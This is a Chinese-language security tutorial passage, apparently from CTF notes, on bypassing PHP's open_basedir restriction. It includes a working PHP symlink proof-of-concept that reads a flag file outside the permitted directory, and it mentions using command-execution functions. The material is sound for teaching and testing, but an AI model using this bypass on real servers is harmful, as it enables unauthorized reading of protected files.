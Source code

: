 当我们设置好open_basedir之后，通过`file_get_contents()`去读取其他目录的文件，执行效果如图
![image-20230722160854725](daydayup.assets/image-20230722160854725.png)

很明显我们无法直接读取open_basedir所规定以外的目录文件。接下来通过`system()`来实现相同的功能

![image-20230722161517469](daydayup.assets/image-20230722161517469.png)

通过命令执行函数绕过open_basedir来读取flag，由于命令执行函数一般都会被限制在disable_function当中，所以我们需要寻找其他的途径来绕过限制。

### symlink()函数

我们先来了解一下`symlink()`函数

```
bool symlink ( string $target , string $link )
```

`symlink()`函数将建立一个指向target的名为link的符号链接，当然一般情况下这个target是受限于open_basedir的。

我们可以通过symlink完成一些逻辑上的绕过导致可以跨目录操作文件。

open_bashedir配置：`open_basedir = /var/www/html/`

首先在/var/www/html/slink.php中 编辑slink.php的内容为

```php
<?php
  //phpinfo();
  highlight_file(__FILE__);
  mkdir("./a");
  chdir("./a");
  mkdir("./b");
  chdir("./b");
  chdir("../");
  chdir("../");
  symlink("./a/b","tmplink");
  symlink("tmplink/../../flag","exp");
  unlink("tmplink");
  mkdir("tmplink");
  echo file_get_contents("http://127.0.0.1/exp");
?>
```
